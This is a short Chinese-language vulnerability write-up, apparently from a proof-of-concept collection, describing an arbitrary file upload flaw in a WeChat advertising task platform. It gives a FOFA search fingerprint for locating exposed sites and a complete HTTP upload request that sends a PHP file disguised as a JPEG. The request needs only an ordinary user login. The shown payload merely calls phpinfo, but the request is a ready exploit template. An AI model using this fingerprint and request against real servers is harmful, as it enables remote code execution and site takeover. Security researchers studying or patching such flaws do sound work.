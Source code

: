 # 微信广告任务平台存在任意文件上传漏洞

微信广告任务平台存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
"/tpl/Public/js/func.js"
```

![6f864edff209980117cfbf97e6d47bab](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409240936570.png)

## poc

注意 这里需要普通用户登录之后操作.

```javascript
POST /index.php/Home/index/ajax_upload HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCc7iBZFp1mvojsxn
Accept: */*
Origin: http://127.0.0.1
Referer: http://127.0.0.1/index.php/Home/Index/index.html
Cookie: think_language=zh-CN; BJYADMIN=2150gjbkj92r835kg2dn9u9i75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.0.0 Safari/537.36

------WebKitFormBoundaryCc7iBZFp1mvojsxn
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryCc7iBZFp1mvojsxn--
```

![35b6a5932d2f61c8b056edd7d83983b1](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409240936176.jpg)



## 漏洞来源

- https://mp.weixin.qq.com/s/t3guPQ6s2GCMU4xZPmEeYw